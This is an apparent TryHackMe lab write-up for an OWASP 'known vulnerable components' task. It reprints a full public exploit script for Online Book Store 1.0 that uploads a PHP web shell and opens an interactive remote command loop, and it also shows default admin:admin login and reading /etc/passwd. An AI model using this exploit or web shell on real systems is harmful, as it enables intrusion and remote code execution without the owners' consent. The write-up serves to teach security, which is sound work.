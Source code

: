 ```yaml
---
icon: material/bug-check-outline
---
```


# Components With Known Vulnerabilites

**Difficulty**: :fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [TryHackMe - OWASP](https://tryhackme.com/room/owasptop10)

## Objective

!!! question "Task 29"
    How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

## Hints

??? tip "Hint 1"
    You know its a bookstore application, you should check for recent unauthenticated bookstore app rce's.

## Solution

The first thing I did was just start poking around the web app. I navigated to the admin log in and tested `admin:admin` for fun, and it logged in. Looking around, there is an option to "Add new book" along with a "Edit" and "Delete" link for each current book.<br/>
After logging in, I did a basic Google search to find an exploit on exploit-db using the description from the landing page.<br/>
The code is below and reading through it we can see that the exploit script appears to need to be uploaded from the admin page (line 28). 

```py linenums="1" title="exploit script" hl_lines="28"
# Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
# Google Dork: N/A
# Date: 2020-01-07
# Exploit Author: Tib3rius
# Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Ubuntu 16.04
# CVE: N/A

import argparse
import random
import requests
import string
import sys

parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()

url = args.url.rstrip('/')
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
print('> Verifying shell upload...')
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
    if launch_shell.lower() == 'y':
        while True:
            cmd = str(input('RCE $ '))
            if cmd == 'exit':
                sys.exit(0)
            r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
            print(r.text)
else:
    if r.status_code == 200:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
    else:
        print('> Web shell failed to upload! The web server may not have write permissions.')
```

Download the exploit so that it can be uploaded to our target on the "Add new book" page, then navigate to the `/bootstrap/img` page. 

!!! warning "Trial and Error"
    A lot of my learning happens during trial and error. The step above is not the method for success. I have included it here to highlight my thought process in attempting to 'hack' this target. 

None of the files listed at `/bootstrap/img/` was the shell I was expecting. If that wasn't it, perhaps the exploit just needs to be run instead of being uploaded?<br/>
Going back to the terminal and directory that the exploit was downloaded too, make the .py file executable, then run it. You may need to install dependencies, which python should alert you of. If you just execute the file, you'll be advised that a url is expected as an input argument. Use the IP address that the webapp is located at. <br/>

![rce](../img/objectives/o9/rce.png)
/// caption
Make executable, install dependencies, execute with proper inputs
///

!!! info "Virtual Environment"
    A virtual environment is a really useful habit to form if working with code, especially when installing dependencies. The details of python virtual environments are beyond the scope of this writing, but I highly encourage you to research and implement the practice sooner rather than later. 

It worked! I got the prompt asking if I wished to launch a shell. Once the shell is established, the command `#!bash wc -c /etc/passwd` was provided in the reading; copy and paste that to the RCE shell to get the number of characters in the /etc/passwd file.

??? success "Known Vulnerability"
    Use research to find the correct exploit script, download the exploit, then execute it to obtain a remote shell. Using Linux navigation skills, or the command provided, will provide the necesary count.

## Wrap Up

As the reading said, this vulnerability is one of the easiest to exploit since the most difficult part involved is research and then using someone else's work to take advantage of mistakes by the target. [Follow along](./o10.md) for the final vulnerability in the OWASP Top 10.
